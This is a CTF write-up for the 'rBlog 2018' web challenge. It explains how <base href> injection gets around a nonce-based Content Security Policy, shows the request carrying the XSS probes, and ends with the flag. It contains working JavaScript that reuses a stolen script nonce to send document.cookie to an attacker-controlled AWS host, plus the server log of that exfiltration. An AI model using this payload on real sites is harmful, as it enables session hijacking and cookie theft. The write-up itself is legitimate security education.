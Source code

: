 # rBlog 2018 - Web

## Problem

get `document.cookie`

http://rblog.2018.teamrois.cn

Then on the URL:

```
rBlog 2018
Title: [input]
Content: [textarea]
Style: [dropdown]
Image: [file-selector]

About rBlog 2018
Store your secrets here but don't do evil things

Report Abuse
Report to admin who is using latest version of Chrome Stable
Report: /blog.php [input]
```

## Tools Used

- https://csp-evaluator.withgoogle.com/
- Amazon Web Services
- Burp Suite (optional)



## Solution

The description makes it obvious this is an XSS attack. However, this proved to be quite ingenious really enjoyable, so unless you solved this, I hope you will learn something from this article.

Start off by observing the context. We have a form where we can submit blog posts. Posts consist of a picture, a title, some content and the style of the page.

Start off by observing how the form works. Intercept the request in burpsuite and repeat it an XSS payload in to all fields to see how things behave. (For this challenge you don't need burpsuite, just wanted to bypass some annoying possible frontend validations). Sample:

```
POST / HTTP/1.1
Host: rblog.2018.teamrois.cn
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://rblog.2018.teamrois.cn/
Content-Type: multipart/form-data; boundary=---------------------------9429957898579749681538093471
Content-Length: 631
Connection: close
Upgrade-Insecure-Requests: 1

-----------------------------9429957898579749681538093471
Content-Disposition: form-data; name="title"

<script>alert(0);</script>
-----------------------------9429957898579749681538093471
Content-Disposition: form-data; name="content"

<script>alert(0);</script>
-----------------------------9429957898579749681538093471
Content-Disposition: form-data; name="effect"

<script>alert(0);</script>
-----------------------------9429957898579749681538093471
Content-Disposition: form-data; name="image"; filename=""
Content-Type: application/octet-stream


-----------------------------9429957898579749681538093471--
```

Follow the redirect in the response, inspect the page. Bingo: title is not properly escaped. However, the script does not execute. Getting this error instead: `Refused to execute inline script because it violates the following Content Security Policy directive: "script-src 'nonce-a716e2b3d6aa62c5c44e2bd90047f1f9'". Either the 'unsafe-inline' keyword, a hash ('sha256-d3ii1Pel57UO62xosCMNgTaZJhJa87Gd/X6e7UdlEU8='), or a nonce ('nonce-...') is required to enable inline execution.`

There is a [CSP](https://en.wikipedia.org/wiki/Content_Security_Policy) in place, obvious from the response header `Content-Security-Policy: default-src 'none'; script-src 'nonce-db072321d0fa2546c1472c3b9aa0030c'; frame-src https://www.google.com/recaptcha/; style-src 'self' 'unsafe-inline' fonts.googleapis.com; font-src fonts.gstatic.com; img-src 'self'`

Formatting the response header nicer:

```makefile
Content-Security-Policy:
    default-src 'none';
    script-src 'nonce-db072321d0fa2546c1472c3b9aa0030c';
    frame-src https://www.google.com/recaptcha/;
    style-src 'self' 'unsafe-inline' fonts.googleapis.com;
    font-src fonts.gstatic.com;
    img-src 'self'
```

Now we need to bypass that. Google wrote a tool to test your CSP. You can find it here https://csp-evaluator.withgoogle.com/. You can either give it the CSP itself, or the link to extract. Paste the above and we get the following result.

![CSP](img/csp.png)

So script-src is missing, but that will not help, because the admin is using the latest version of Chrome Stable (written on the challenge page). We will need to use base-uri. This allows us to redirect anything that does not have the base set. Looking through the response, I see this

```html
<script nonce="a716e2b3d6aa62c5c44e2bd90047f1f9" src="/assets/js/jquery.min.js"></script>
```

Bingo, I just need to create something like that in the wild served from a public IP / DNS. There are many ways of doing that, AWS being the most obvious, but I went for github pages and I created an organization called `aicioara-gh-pages`, a repository called `assets` and inside the file `/js/jquery.min.js` with the payload `alert(0);` and I turned on GitHub pages from settings. This created the following public url `https://aicioara-gh-pages.github.io/assets/js/jquery.min.js`. This is great if you need an HTTPS resource out there. For this challenge it was not the case, so I should have gone with AWS.


Once I have that I want to make a blog post with the following title:

```
<base href = "https://aicioara-gh-pages.github.io" />
```

Following the redirect, I get the alert. Now I have arbitrary code execution. Now I need to steal the cookie. Unfortunately the code execution I have is not so arbitrary. Changing the payload in my version of jquery.min.js to something like

```js
var payload = document.cookie;
var xhttp = new XMLHttpRequest();
xhttp.open("GET", "http://example.com?" + payload, true);
xhttp.send();
```

Will not work. AJAX is blocked by the CSP. We need to make a `GET` request in some other way (think loading an external stylesheet, video, script, etc). The only action allowed is having a `<script>` with the correct nonce. Fortunately this is something we can do. All scripts on the page have a nonce, so we can steal one. We have arbitrary code execution, so we can read the nonce from any `<script>` tag, then create a new `<script>` tag, ask it to fetch its content from a location controlled by us, and add the payload as parameter. The payload in `/js/jquery.min.js` then becomes:

```js
var payload = document.cookie;
var nonce = document.querySelector("script").nonce;

var src = `http://ec2-54-152-84-87.compute-1.amazonaws.com/?${payload}`

var s = document.createElement('script')
s.type = 'text/javascript'
s.src = src
s.setAttribute('nonce', nonce)

document.body.appendChild(s);
```

On the AWS side of things, I just created a new EC2 VM, opened up port 80 and ran `python -m "SimpleHTTPServer" 80`. Submitted the URL for the post (the one with the `<base>` injection) to the admin and waited.

On AWS I get

```
115.159.200.107 - - [19/May/2018 17:53:52] "GET /?flag=RCTF{why_the_heck_no_mimetype_for_webp_in_apache2_in_8012};%20hint_for_rBlog_Rev.2=http://rblog.2018.teamrois.cn/blog.php/52c533a30d8129ee4915191c57965ef4c7718e6d
```

**Flag: RCTF{why_the_heck_no_mimetype_for_webp_in_apache2_in_8012}**
